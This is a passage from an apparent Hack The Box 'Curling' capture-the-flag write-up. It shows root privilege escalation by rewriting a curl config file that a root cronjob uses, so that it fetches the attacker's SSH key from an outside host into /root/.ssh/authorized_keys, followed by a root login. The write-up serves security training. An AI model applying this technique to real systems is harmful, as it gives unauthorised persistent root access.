```
root      9227  0.0  0.4 105360  9076 ?        S    20:44   0:00 curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report
```

As suspected, a cronjob executes curl using a `input` config file which we can write to.

We will change the file to fetch our SSH public key and save it into root's authorized_keys file:

```
floris@curling:~/admin-area$ echo -ne 'output = "/root/.ssh/authorized_keys"\nurl = "http://10.10.14.23/key.txt"\n' > input
floris@curling:~/admin-area$ cat input
output = "/root/.ssh/authorized_keys"
url = "http://10.10.14.23/key.txt"
```

When the cronjob runs, it fetches our public key:

```
root@ragingunicorn:~/htb/curling# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.150 - - [27/Oct/2018 16:52:56] "GET /key.txt HTTP/1.1" 200 -
```

We can now SSH in as root:

```
root@ragingunicorn:~# ssh root@curling.htb
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-22-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Oct 27 20:47:15 UTC 2018

  System load:  0.13              Processes:            181
  Usage of /:   46.3% of 9.78GB   Users logged in:      1
  Memory usage: 22%               IP address for ens33: 10.10.10.150
  Swap usage:   0%

  => There is 1 zombie process.


0 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Sep 25 21:56:22 2018
root@curling:~# cat root.txt
82c198...
```